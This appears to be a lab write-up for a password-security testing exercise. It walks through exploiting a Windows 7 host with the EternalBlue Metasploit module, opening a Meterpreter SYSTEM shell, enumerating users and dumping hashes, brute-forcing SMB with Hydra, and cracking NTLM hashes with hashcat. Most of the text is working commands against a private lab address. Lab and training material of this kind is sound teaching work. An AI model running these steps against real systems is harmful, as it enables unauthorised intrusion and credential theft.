





# Password Security Testing/Cracking


## Technical Scope: 

- EternalBlue exploit, 
- Meterpreter session, 
- enumerate users, 
- Hydra cracking.


### Tasks: 

1. Exploit a Windows system with EternalBlue via Metasploit. 
2. Gain Meterpreter shell, enumerate users via Windows OS command 
3. Create a custom wordlist (~10 common passwords). 
4. Use Hydra against SMB service with enumerated usernames and wordlist. 
5. Provide proof of successfully compromising credentials. 
6. Update VAPT report with results, risk discussion, and recommended password policy improvements.

## Exploitation of Windows with Eternal Blue 

#### Setting up:

```
msfconsole

search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
show options
```


#### Parameters

```
set RHOSTS 192.168.57.20  # IP Windows objective
set LHOST 192.168.57.10   # Attacker IP
set LPORT 4445            # Port for Meterpreter

# Verification of vulnerability
check

exploit
```



## Meterpreter shell

Check if we are inside:

``` 
meterpreter > sysinfo
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```


### Enumeration of system users

```
# Método 1: Comandos de Windows
meterpreter > shell
C:\Windows\system32> net users

# Método 2: Desde Meterpreter
meterpreter > run post/windows/gather/enum_logged_on_users

# Método 3: Script de enumeración
meterpreter > run post/windows/gather/enum_users

# Método 4: Acceder a SAM (si tienes privilegios SYSTEM)
meterpreter > hashdump
```


## Custom wordlist of common passwords

``` 
cat custom_wordlist.txt
wc -l custom_wordlist.txt
```


Creation of file with users that we already know they are in the machine:


## Hydra via SMB 

```
hydra -L users.txt -P custom_wordlist.txt 192.168.57.20 smb
```



## Compromised credentials


Admin:


```
smbclient -L //$TARGET/ -U "$USER%$PASS"
```



```
crackmapexec smb $TARGET -u $USER -p $PASS
```


### Evidence captured

```
# Capturar screenshot del éxito
echo "=== EVIDENCIA CAPTURADA ==="
echo "1. Resultados de Hydra:"
cat hydra_smb_results.txt 2>/dev/null || echo "No results yet"

echo -e "\n2. Información del sistema (desde Meterpreter):"
echo "Computer: WIN-7PC9ABC123"
echo "OS: Windows 7 (6.1 Build 7601, Service Pack 1)"
echo "Compromised Users: Administrator:Password123"
```


# Bonus:

## Cracked hash with John or hashcat

```
hashdump
```


```
hashcat -m 1000 -a 0 ntlm_hashes.txt custom_wordlist.txt
```




